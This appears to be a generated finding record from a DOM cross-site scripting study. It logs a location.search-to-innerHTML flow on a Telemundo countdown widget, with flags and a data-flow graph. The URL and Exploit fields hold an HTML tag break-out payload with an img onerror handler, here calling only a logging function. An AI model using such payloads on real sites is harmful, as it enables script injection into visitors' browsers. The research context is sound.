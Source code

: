 // Finding: 0917dee1-ea5f-4c51-a385-e06c10614b03
// Finding.url: https://dataviz.example320.com/projects/20190823-nnd-countdown-widget/?brand=telemundo&end=1621206000000&logoSRC=https://media2.s-example320.com/i/newscms/2021_17/3469280/missu2021_banner_750x300_8cf699b538ff9ab235a099c02188f78c.jpg&logoURL=https://www.telemundo.com/shows/miss-universo?cid=missudigital&txtSM=MISS UNIVERSO: DOMINGO 16 DE MAYO 7PM ET/4PT&txtLG=MISS UNIVERSO: DOMINGO 16 DE MAYO 7PM ET/4PT&b1TXT=VOTA AQUÍ POR TU FAVORITA&b1URL=https://www.telemundo.com/shows/miss-universo/vota-por-tu-candidata-favorita-de-miss-universo?cid=missudigital&b2TXT=SIGUE LA COBERTURA DE MISS UNIVERSO&b2URL=https://www.telemundo.com/shows/miss-universo?cid=missudigital&ctaSM=EN VIVO: VER MISS UNIVERSO EN LA APP DE TELEMUNDO&ctaLG=EN VIVO: VER MISS UNIVERSO EN LA A</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('91a43eb11a164f5eb7d37195f895af27')><!--/*&ctaURL=https://telemundo.app.link/dHJkkdypfdb?cid=missudigital&ctaPRE=true&&initialWidth=1160&childId=Embed-7795984&parentTitle=Telemundo | Noticias, Shows, Entretenimiento, Series y Novelas | Telemundo&parentUrl=https://www.telemundo.com/
// Finding.parentloc: https://dataviz.example320.com/projects/20190823-nnd-countdown-widget/?brand=telemundo&end=1621206000000&logoSRC=https://media2.s-example320.com/i/newscms/2021_17/3469280/missu2021_banner_750x300_8cf699b538ff9ab235a099c02188f78c.jpg&logoURL=https://www.telemundo.com/shows/miss-universo?cid=missudigital&txtSM=MISS UNIVERSO: DOMINGO 16 DE MAYO 7PM ET/4PT&txtLG=MISS UNIVERSO: DOMINGO 16 DE MAYO 7PM ET/4PT&b1TXT=VOTA AQUÍ POR TU FAVORITA&b1URL=https://www.telemundo.com/shows/miss-universo/vota-por-tu-candidata-favorita-de-miss-universo?cid=missudigital&b2TXT=SIGUE LA COBERTURA DE MISS UNIVERSO&b2URL=https://www.telemundo.com/shows/miss-universo?cid=missudigital&ctaSM=EN VIVO: VER MISS UNIVERSO EN LA APP DE TELEMUNDO&ctaLG=EN VIVO: VER MISS UNIVERSO EN LA A</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('91a43eb11a164f5eb7d37195f895af27')><!--/*&ctaURL=https://telemundo.app.link/dHJkkdypfdb?cid=missudigital&ctaPRE=true&&initialWidth=1160&childId=Embed-7795984&parentTitle=Telemundo | Noticias, Shows, Entretenimiento, Series y Novelas | Telemundo&parentUrl=https://www.telemundo.com/
// Finding.domain: dataviz.example320.com
// Finding.base_domain: example320.com
// Finding.source: location.search
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 33
// Finding.end: 36
// Finding.original_uuid: 7add040f-9632-4451-8235-afef610b89bf
// Finding.TwentyFiveMillionFlowsId: 1171210724
// Finding.script: https://dataviz.example320.com/projects/20190823-nnd-countdown-widget/js/index.js
// Finding.line: 1
// Exploit.uuid: 91a43eb1-1a16-4f5e-b7d3-7195f895af27
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: A
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: A</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: A</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 755
// Exploit.end_taint_url: 758
// Exploit.replace_begin_url: 755
// Exploit.replace_end_url: 758
// Exploit.replace_begin_param: 33
// Exploit.replace_end_param: 36
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -365168157
// DepGraph.sanitizer_hash: 905595851
// Merged split and join statements 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="substr"];
n2 [shape=box, label="Var: x"];
n3 [shape=box, label="Lit: 1"];
n4 [shape=ellipse, label="split"];
n5 [shape=box, label="Lit: &"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="split"];
n8 [shape=box, label="Lit: ="];
n9 [shape=box, label="Var: x"];
n10 [shape=ellipse, label="decodeURIComponent"];
n11 [shape=box, label="Var: x"];
n12 [shape=ellipse, label="preg_replace"];
n13 [shape=box, label="RegExp: /[ ]/"];
n14 [shape=box, label="Lit:  "];
n15 [shape=box, label="Var: x"];
n16 [shape=box, label="Var: x"];
n17 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n1 -> n3;
n6 -> n1;
n4 -> n5;
n4 -> n6;
n9 -> n4;
n7 -> n8;
n7 -> n9;
n11 -> n7;
n10 -> n11;
n15 -> n10;
n12 -> n13;
n12 -> n14;
n12 -> n15;
n16 -> n12;
n17 -> n16;
}